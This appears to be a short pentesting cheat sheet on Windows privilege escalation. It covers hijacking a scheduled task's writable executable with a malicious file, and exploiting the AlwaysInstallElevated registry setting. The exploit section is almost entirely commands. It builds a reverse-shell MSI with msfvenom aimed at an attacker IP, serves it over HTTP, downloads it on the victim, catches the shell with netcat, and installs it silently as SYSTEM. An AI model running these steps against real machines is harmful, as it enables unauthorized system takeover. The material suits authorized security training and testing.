 # Scheduled tasks
- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

```powershell
# List Scheduled tasks
schtasks /query /fo LIST /v

# check tasktorun

# check permissions to modify the executable ?
icacls <path>

# move your malicious file to the location
mv .\adduser.exe <path>

# wait for the scheduled task to be executed
```

# AlwaysInstallElevated
## Detect
```powershell
# Check if these registry values are set to "1".
# cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# powershell
Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installerpowe
```

>These registry keys tell windows that a user of any privilege can install .msi files are NT AUTHORITY\SYSTEM. So all you need to do is create a malicious .msi file, and run it.

## Exploit
```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=443 -f msi -o rev.msi
python -m SimpleHTTPServer 80

# on the windows victim
powershell wget http://$attacker_ip/rev.msi

# on attacker
nc -lvnp 443

# on victim
msiexec /quiet /qn /i rev.msi
```
